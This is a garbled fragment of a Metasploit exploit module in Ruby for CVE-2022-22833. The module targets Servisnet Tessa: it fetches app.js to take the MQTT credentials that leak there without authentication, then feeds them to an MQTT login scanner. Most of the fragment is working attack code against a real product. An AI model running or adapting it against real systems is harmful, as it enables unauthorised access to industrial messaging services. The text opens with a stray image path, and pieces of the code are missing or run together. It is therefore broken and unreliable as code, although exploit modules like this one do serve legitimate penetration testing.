   ),
  'References'     =>
    [
      [ 'CVE', 'CVE-2022-22833' ],
      [ 'URL', 'https://pentest.com.tr/exploits/Servisnet-Tessa-MQTT-Credentials-Dump-Unauthenticated.html' ],
      [ 'URL', 'http://www.servisnet.com.tr/en/page/products' ]
    ],
  'Author'         =>
    [
      'Özkan Mustafa AKKUŞ <AkkuS>' # Discovery & PoC & MSF Module @ehakkus
    ],
  'License'        => MSF_LICENSE,
  'DisclosureDate' => "Dec 22 2021",
  'DefaultOptions' =>
    {
      'RPORT' => 443,
      'SSL'   => true
    }
))

register_options([
    OptString.new('TARGETURI',  [true, 'Base path for application', '/'])
])
 'uri'     => normalize_uri(target_uri.path, 'js', 'app.js'),
 'method'  => 'GET'
  print_status("##### Starting MQTT login sweep #####")

  # Removed brute force materials that can be included for the collection.
  cred_collection = Metasploit::Framework::CredentialCollection.new(
    password: mqtt_pass,
    username: mqtt_usr
  )
  # this definition already exists in "auxiliary/scanner/mqtt/connect". Moved into exploit.
  cred_collection = prepend_db_passwords(cred_collection)

  scanner = Metasploit::Framework::LoginScanner::MQTT.new(
    host: rhost,
    port: mqtt_port,
    read_timeout: datastore['READ_TIMEOUT'],
    client_id: client_id,
    proxies: datastore['PROXIES'],
    cred_details: cred_collection,
    stop_on_success: datastore['STOP_ON_SUCCESS'],
    bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
    connection_timeout: datastore['ConnectTimeout'],
    max_send_size: datastore['TCP::max_send_size'],
    send_delay: datastore['TCP::send_delay'],
    framework: framework,
    framework_module: self,
    ssl: datastore['SSL'],
    ssl_version: datastore['SSLVersion'],
    ssl_verify_mode: datastore['SSLVerifyMode'],
    ssl_cipher: datastore['SSLCipher'],
    local_port: datastore['CPORT'],
    local_host: datastore['CHOST']
  )
